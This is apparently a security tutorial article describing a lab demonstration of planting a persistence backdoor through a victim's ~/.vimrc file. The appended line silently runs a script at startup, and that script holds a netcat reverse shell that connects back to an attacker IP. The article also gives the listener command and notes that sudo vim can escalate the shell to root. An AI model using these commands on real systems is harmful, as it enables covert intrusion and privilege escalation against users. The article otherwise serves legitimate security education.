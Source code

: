 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a well-known and widely used command-line text editor that comes pre-installed on most Unix and Linux operating systems. In many Linux setups, user-specific VIM configuration settings are stored in the user's home directory within the .vimrc file. This file accepts VIM-specific scripting commands, facilitating users to personalize Vim's functionalities according to their preferences. It is automatically loaded when Vim starts, enabling users to tailor their editing environment to their liking.

This interesting setup presents an opportunity. By manipulating the .vimrc file, one can execute unintended actions during a user's VIM session, especially if VIM operates within an unrestricted environment.

To get a feel for that, let's experiment within the VIM environment. Execute the following command within VIM to get the user ID (or username):
```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

You see, once you hit enter, the user ID is printed on the screen. This is because VIM has access to the shell environment's variables.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Moreover, we can inject any commands into the .vimrc file, ensuring their execution in the background whenever the current user starts Vim. One particularly interesting command is the `source` command, used to execute commands from a script file in the current shell session.

Let's illustrate this with an example scenario: suppose an attacker, operating from a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker aims to establish a backdoor on the victim machine, such as creating a netcat reverse shell connection to the attacker's machine.

First, on the victim machine, the attacker creates or modifies the .vimrc file by appending the following line:
```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```
Let's analyze this command: Firstly, the `:silent` suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the `source` command, preceded by an exclamation mark to indicate that this is a shell command, loads and executes the script ncReverseSh.sh, followed by the & to execute the command in the background."

Now, the attacker need to populate the script ncReverseSh.sh with the payload:
```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This is a simple script that invokes the nc command with the -e switch, specifying the program (/bin/sh) to execute upon connection establishment, followed by the attacker's IP and listening port. Again, the & ensures the command runs in the background

Okay, let's give it a shot. Start a netcat listener on the attacker machine on port 7777:
```sh
nc -lnvp 7777
```

On the victim machine, when launching Vim to read any file, it will trigger the execution of the backdoor script. You can see on the attacker machine that a netcat connection has been established with the victim, and the victim did not receive any suspicious messages.
![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

You should know that the reverse shell obtained doesn't necessarily grant access beyond that of the current user. However, if the victim runs VIM with sudo, the attacker might get a root shell. However, this is only half the story; it depends on the Linux distribution. For example, in systems like Ubuntu and Red Hat, VIM uses the current user's `.vimrc` configuration file even within a sudo context. Therefore, if the user invokes VIM via sudo, our sourced script will execute as root. On the other hand, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, without using the current user's settings.

One more thing: another idea is to check the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:
```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

In this example, the configuration allows the root user to execute /usr/bin/vim on /opt/whatever.conf without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning...


### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
